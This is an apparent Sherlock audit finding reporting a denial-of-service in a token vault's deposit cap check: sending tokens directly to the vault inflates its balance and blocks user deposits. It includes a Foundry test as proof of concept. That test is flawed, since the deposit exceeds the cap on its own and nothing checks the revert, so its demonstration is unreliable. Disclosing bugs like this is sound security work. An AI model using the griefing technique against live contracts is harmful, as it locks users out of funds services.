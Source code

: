 Ancient Berry Bobcat

High

# Dos in deposit function by send token to valut

### Summary

when user try to despoist there a cap check if the amount + balance in the value bigger than cap the function will revert  
```solidity 
if (cap != type(uint256).max) {
            if (_amount + _token.balanceOf(address(this)) > cap) {
                revert DepositExceedsCap();
            }
        }
```

### Root Cause

attacker can send some token to the vault  to Dos the despost function 
```solidity
function deposit(ERC20 _token, uint256 _amount, address _receiver) public {
        uint256 cap = caps[address(_token)];

        if (cap != type(uint256).max) {
            if (_amount + _token.balanceOf(address(this)) > cap) {
                revert DepositExceedsCap();
            }
        }
``` 
https://github.com/sherlock-audit/2024-07-sense-points-marketplace/blob/076bf833f4dc1418e93c8172e4a4110344f1c812/point-tokenization-vault/contracts/PointTokenVault.sol#L114C5-L128C6

### Internal pre-conditions

1. admin set cap to 1e18.
2. user try to desposit 0.5e18 attacker front-running tx and send 1e18 token to the value.
3. user tx fail due to Deposit Exceeds Cap.

### External pre-conditions

_No response_

### Attack Path

_No response_

### Impact

user unable to deposit .

### PoC
add this to PointTokenVault.t.sol 
```solidity
function test_Deposit_attack() public {
        // Deploy a new mock token
        MockERC20 newMockToken = new MockERC20("New Test Token", "NTT", 18);

        // Set a cap for the new token
        uint256 capAmount = 1e18; // 1 token cap
        vm.prank(operator);
        vm.expectEmit(true, true, true, true);
        emit CapSet(address(newMockToken), 0, capAmount);
        pointTokenVault.setCap(address(newMockToken), capAmount);

        // Mint tokens to vitalik
        newMockToken.mint(vitalik, 3e18); // 3 tokens

        // Approve and try to deposit more than the cap
        vm.startPrank(vitalik);
        newMockToken.approve(address(pointTokenVault), 2e18);
        
        newMockToken.transfer(address(pointTokenVault), 1e18); //@audit dos 
        pointTokenVault.deposit(newMockToken, 1.5e18, vitalik); // Try to deposit 1.5 tokens
        vm.stopPrank();
    }
```
### Mitigation

_No response_